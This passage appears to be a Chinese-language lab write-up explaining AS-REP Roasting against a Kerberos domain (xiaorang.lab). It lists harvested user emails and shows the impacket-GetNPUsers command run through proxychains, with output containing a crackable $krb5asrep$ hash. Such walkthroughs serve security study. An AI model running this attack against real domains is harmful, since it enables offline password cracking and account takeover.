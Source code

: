 ## 172.22.15.13 AS-REP Roasting

:::info AS-REP Roasting

AS-REP Roasting 是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)" 。而该属性默认是没有勾选上的。预身份验证是 Kerberos 身份验证的第一步 (AS_REQ & AS_REP)，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC 会记录密码错误次数，防止在线爆破。

当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT 票据 和 该用户 Hash 加密的 Session Key 返回。因此，攻击者就可以对获取到的 用户 Hash 加密的 Session Key 进行离线破解，如果破解成功，就能得到该指定用户的密码明文。

AS-REP Roasting 攻击条件

域用户设置了 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)"

需要一台可与 KDC 进行通信的主机 / 用户

:::

将从数据库中得到的用户数据，提取出来邮箱信息

```plaintext
lixiuying@xiaorang.lab
lixiaoliang@xiaorang.lab
zhangyi@xiaorang.lab
jiaxiaoliang@xiaorang.lab
zhangli@xiaorang.lab
zhangwei@xiaorang.lab
liuqiang@xiaorang.lab
wangfang@xiaorang.lab
wangwei@xiaorang.lab
wanglihong@xiaorang.lab
huachunmei@xiaorang.lab
wanghao@xiaorang.lab
zhangxinyu@xiaorang.lab
huzhigang@xiaorang.lab
lihongxia@xiaorang.lab
wangyulan@xiaorang.lab
chenjianhua@xiaorang.lab
```

另存为 `user-emails.txt` 文件之后，执行爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-GetNPUsers -dc-ip 172.22.15.13 xiaorang.lab/ -usersfile user-emails.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:5d6328fca1544abbd31c14a61fd2b361$1dcc345e2b2bba51a51610e9d7e2da9c4f164cb25d33939fbe0d095b0e811dfa68bbbb4bf28c73c53de3b941fb961b95867d0834d09a7ae61c73a7a548ddd2ab63cb06a4f3aa978e879f1790c4b1a2d023877dcfbcb7babc820ad34d6c212ef81ab5a1f327e6a201ed696093d4a7d86bb743a52ff2f4b398347b95918918e7ab466db177de4b2904d4426e92725a5de10eb20c287093aef9fc8f6e7de761a639b6901cfd88750cd4243b7c4ab990e7939b0e8d3db6a16f20fd9fa187c061f67330549d0f2f4576b3e47c43b1b06441d8aae6b4e9fb4c5128bba6f0525df4466a4ae689de516da594307dffd2
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```